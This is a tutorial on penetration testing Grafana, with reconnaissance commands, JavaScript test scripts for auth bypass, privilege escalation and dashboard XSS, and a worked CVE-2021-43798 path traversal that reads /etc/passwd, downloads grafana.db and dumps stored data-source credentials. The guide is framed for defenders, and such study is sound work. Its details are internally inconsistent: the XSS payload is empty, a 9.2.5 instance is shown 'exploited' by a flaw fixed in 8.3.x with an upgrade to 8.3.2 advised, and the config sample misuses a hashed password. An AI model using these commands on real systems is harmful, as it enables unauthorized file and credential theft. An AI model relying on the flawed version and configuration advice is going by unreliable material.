

# Penetration Testing

## Introduction

Penetration testing, often abbreviated as "pen testing," is a systematic process of probing a computer system, network, or application to find security vulnerabilities that an attacker could exploit. In the context of Grafana, penetration testing helps identify potential security weaknesses in your deployment before malicious actors can discover and exploit them.

This guide will walk you through the fundamentals of penetration testing specifically for Grafana environments, providing you with the knowledge and tools to assess and improve your Grafana security posture.

## Why Perform Penetration Testing on Grafana?

Grafana serves as a central visualization platform for your organization's metrics and may have access to sensitive data sources. Some compelling reasons to perform penetration testing include:

- **Protecting sensitive data**: Grafana dashboards often contain business-critical information
- **Preventing unauthorized access**: Ensuring only authorized users can access specific dashboards and features
- **Maintaining compliance**: Meeting regulatory requirements for security testing
- **Validating security controls**: Confirming that implemented security measures are effective

## Penetration Testing Methodology for Grafana

A structured approach to penetration testing helps ensure comprehensive coverage. Here's a recommended methodology specifically tailored for Grafana:



### 1. Planning & Reconnaissance

Begin by gathering information about the Grafana deployment:

- Identify the Grafana version and deployment method
- Map out the architecture and connected data sources
- Understand user roles and authentication mechanisms
- Document API endpoints and integrations

**Example reconnaissance command:**

```bash
# Fingerprint the Grafana instance
curl -s -I http://your-grafana-instance.com | grep -i server
```

Output:
```
Server: Grafana/9.3.2
```

### 2. Vulnerability Scanning

Use specialized tools to scan for known vulnerabilities in your Grafana deployment:

- Check for outdated versions with known CVEs
- Scan for misconfigurations in deployment
- Test for weak authentication mechanisms
- Identify insecure API endpoints

**Example vulnerability scan using Nmap:**

```bash
# Scan Grafana instance for vulnerabilities
nmap -sV --script=http-enum,http-vuln* your-grafana-instance.com -p 3000
```

### 3. Exploitation Attempts

Based on identified vulnerabilities, attempt to exploit them in a controlled environment:

#### Authentication Bypass Testing

```javascript
// Example script testing for authentication bypass
async function testAuthBypass(grafanaUrl) {
  try {
    // Attempt to access dashboard without authentication
    const response = await fetch(`${grafanaUrl}/api/dashboards/uid/xyz123`, {
      method: 'GET',
      headers: {
        'Content-Type': 'application/json'
      }
    });
    
    console.log(`Status: ${response.status}`);
    const data = await response.json();
    console.log(data);
    
    // If we get a 200 OK without auth, we have a vulnerability
    return response.status === 200;
  } catch (error) {
    console.error("Error during test:", error);
    return false;
  }
}
```

#### Permission Escalation Testing

```javascript
// Example script testing for permission escalation
async function testPermissionEscalation(grafanaUrl, authToken) {
  try {
    // Attempt to access admin API with viewer privileges
    const response = await fetch(`${grafanaUrl}/api/admin/settings`, {
      method: 'GET',
      headers: {
        'Content-Type': 'application/json',
        'Authorization': `Bearer ${authToken}`
      }
    });
    
    console.log(`Status: ${response.status}`);
    
    // If we get a 200 OK with viewer token, we have a vulnerability
    return response.status === 200;
  } catch (error) {
    console.error("Error during test:", error);
    return false;
  }
}
```

### 4. Post-Exploitation Analysis

After successful exploitation, assess the potential impact:

- Determine what data could be accessed or modified
- Evaluate the extent of possible privilege escalation
- Assess if lateral movement to other systems is possible
- Document the attack path and evidence

**Example post-exploitation analysis:**

```bash
# After gaining access, check what datasources are configured
curl -s -H "Authorization: Bearer $STOLEN_TOKEN" \
     http://your-grafana-instance.com/api/datasources | jq '.'
```

### 5. Reporting

Document your findings in a clear, actionable report:

- Executive summary of critical findings
- Detailed descriptions of discovered vulnerabilities
- Impact assessment for each vulnerability
- Proof-of-concept evidence
- Remediation recommendations

### 6. Remediation & Verification

Implement security fixes and verify their effectiveness:

- Apply patches and updates
- Fix misconfigurations
- Strengthen authentication mechanisms
- Re-test to verify that vulnerabilities are resolved

## Common Grafana Vulnerabilities

When penetration testing Grafana, focus on these common vulnerability areas:

### 1. API Security Issues

Grafana's API is powerful but can be a source of vulnerabilities:

```javascript
// Testing for insecure API endpoints
async function testAPIEndpoint(grafanaUrl, endpoint, authToken = null) {
  const headers = {
    'Content-Type': 'application/json'
  };
  
  if (authToken) {
    headers['Authorization'] = `Bearer ${authToken}`;
  }
  
  try {
    const response = await fetch(`${grafanaUrl}/api/${endpoint}`, {
      method: 'GET',
      headers: headers
    });
    
    return {
      status: response.status,
      data: await response.text()
    };
  } catch (error) {
    return {
      status: 'error',
      message: error.toString()
    };
  }
}

// Example usage
const results = await testAPIEndpoint('http://your-grafana.com', 'dashboards/home');
console.log(results);
```

### 2. Authentication Weaknesses

Test for weak authentication mechanisms:

- Default or weak admin credentials
- Insufficient rate limiting for login attempts
- Session management issues
- SAML/OAuth misconfiguration

### 3. Dashboard and Panel Injection

Test for injection vulnerabilities in dashboard panels:

```javascript
// Testing for XSS in panel titles or descriptions
const maliciousTitle = '';

async function createDashboardWithXSS(grafanaUrl, authToken) {
  const dashboardData = {
    dashboard: {
      id: null,
      title: maliciousTitle,
      panels: [
        {
          title: "Normal Panel",
          type: "text",
          content: "This is a test panel"
        }
      ]
    },
    folderId: 0,
    overwrite: false
  };
  
  try {
    const response = await fetch(`${grafanaUrl}/api/dashboards/db`, {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
        'Authorization': `Bearer ${authToken}`
      },
      body: JSON.stringify(dashboardData)
    });
    
    return await response.json();
  } catch (error) {
    console.error("Error during test:", error);
    return null;
  }
}
```

### 4. Plugin Vulnerabilities

Grafana's plugin system can introduce security risks:

- Outdated plugins with known vulnerabilities
- Unsigned or unverified plugins
- Excessive permissions granted to plugins

## Practical Example: Full Penetration Test Workflow

Let's walk through a practical example of conducting a complete penetration test on a Grafana instance:

### Step 1: Reconnaissance

First, gather information about the target Grafana instance:

```bash
# Check Grafana version
curl -s http://target-grafana:3000/api/health | jq '.'
```

Output:
```json
{
  "commit": "8d8452936",
  "database": "ok",
  "version": "9.2.5"
}
```

### Step 2: Vulnerability Assessment

Check for known vulnerabilities in the identified version:

```bash
# Search for CVEs affecting Grafana 9.2.5
curl -s "https://services.nvd.nist.gov/rest/json/cves/2.0?keywordSearch=grafana+9.2" | jq '.'
```

### Step 3: Exploitation

Test for a specific vulnerability, like the path traversal issue in older Grafana versions:

```bash
# Test for CVE-2021-43798 (path traversal vulnerability)
curl -s http://target-grafana:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
```

### Step 4: Post-Exploitation

If successful, explore what can be accessed:

```bash
# After successfully exploiting a vulnerability, try to access datasource configuration
curl -s http://target-grafana:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db > grafana.db

# Then extract sensitive information from the database
sqlite3 grafana.db "SELECT * FROM data_source"
```

### Step 5: Reporting and Remediation

Document findings and recommend fixes:

```markdown
## Critical Finding: Path Traversal Vulnerability

**Description**: The Grafana instance is vulnerable to CVE-2021-43798, allowing 
unauthenticated access to files outside the intended directory.

**Proof of Concept**: Successfully retrieved /etc/passwd file using the following request:
curl http://target-grafana:3000/public/plugins/alertlist/../../../../../../../../etc/passwd

**Remediation**: Update Grafana to version 8.3.2 or later which contains the fix for this vulnerability.
```

## Tools for Grafana Penetration Testing

Several tools can assist with Grafana penetration testing:

1. **General Security Tools**:
   - Nmap: Network scanning and service detection
   - OWASP ZAP: Web application security scanner
   - Burp Suite: Web vulnerability scanner and proxy

2. **Grafana-Specific Tools**:
   - Grafana-LFI-Scanner: Checks for local file inclusion vulnerabilities
   - Grafana-CVE-2021-43798: Tests for the path traversal vulnerability
   - API-Fuzzer: Tests Grafana API endpoints for vulnerabilities

## Best Practices for Secure Grafana Deployments

Based on penetration testing findings, implement these security best practices:

1. **Keep Grafana Updated**:
   ```bash
   # Check current version
   grafana-cli version
   
   # Update to latest version
   grafana-cli update-cli
   grafana-cli upgrade
   ```

2. **Configure Authentication Properly**:
   ```ini
   # Example secure authentication configuration in grafana.ini
   [auth]
   disable_login_form = false
   oauth_auto_login = false
   
   [auth.security]
   disable_initial_admin_creation = false
   admin_user = admin
   admin_password = $2a$10$JgEm...  # Use strong hashed password
   cookie_secure = true
   cookie_samesite = strict
   ```

3. **Implement Network Security**:
   ```bash
   # Configure firewall to restrict access
   ufw allow from 10.0.0.0/8 to any port 3000
   ```

4. **Regular Penetration Testing**:
   - Schedule quarterly security assessments
   - Perform testing after major updates
   - Conduct testing from both authenticated and unauthenticated perspectives

## Summary

Penetration testing is an essential component of securing your Grafana deployment. By systematically identifying and addressing vulnerabilities, you can protect your visualization platform from potential attacks and ensure the confidentiality, integrity, and availability of your metrics and dashboards.

The methodology and techniques outlined in this guide provide a starting point for conducting effective penetration tests on your Grafana environment. Remember that security is an ongoing process, and regular testing is necessary to maintain a strong security posture.

## Additional Resources

- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Grafana Security Documentation](https://grafana.com/docs/grafana/latest/setup-grafana/configure-security/)
- [Common Vulnerabilities and Exposures Database](https://cve.mitre.org/)

## Exercises

1. **Basic Reconnaissance**:
   Set up a test Grafana instance and perform initial reconnaissance to identify its version, enabled plugins, and accessible endpoints.

2. **Vulnerability Scanning**:
   Use Nmap and OWASP ZAP to scan your Grafana instance for potential vulnerabilities.

3. **Authentication Testing**:
   Attempt to bypass authentication or perform brute force attacks against your Grafana login page. Document your findings and how to prevent such attacks.

4. **API Security Assessment**:
   Test various Grafana API endpoints with and without authentication. Document which endpoints are accessible and what information they expose.

5. **Create a Security Checklist**:
   Based on your penetration testing experience, create a comprehensive security checklist for Grafana administrators to follow when deploying new instances.